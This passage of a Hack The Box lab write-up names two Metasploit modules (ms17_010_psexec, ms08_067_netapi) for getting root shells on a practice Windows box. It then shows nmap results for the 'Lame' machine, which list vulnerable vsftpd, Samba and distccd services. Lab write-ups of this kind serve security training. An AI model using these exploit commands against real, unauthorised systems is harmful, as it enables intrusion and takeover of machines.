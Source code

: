 There are metasploit modules for both of these exploits we can use those and get a shell as super user just by setting the rhosts to 10.10.10.4 and then LHOST to tun0 .

The modules we can use to get root shells are :

```
use exploit/windows/smb/ms17_010_psexec
use exploit/windows/smb/ms08_067_netapi
```



# Linux : Lame : 10.10.10.3 : Easy

Nmap Scan :

```bash
Nmap scan report for 10.10.10.3
Host is up (0.049s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h39m02s, deviation: 3h32m08s, median: 9m01s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-12-30T14:54:24-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.77 seconds
------------------------------------------------------------
Combined scan completed in 0:02:37.836006

```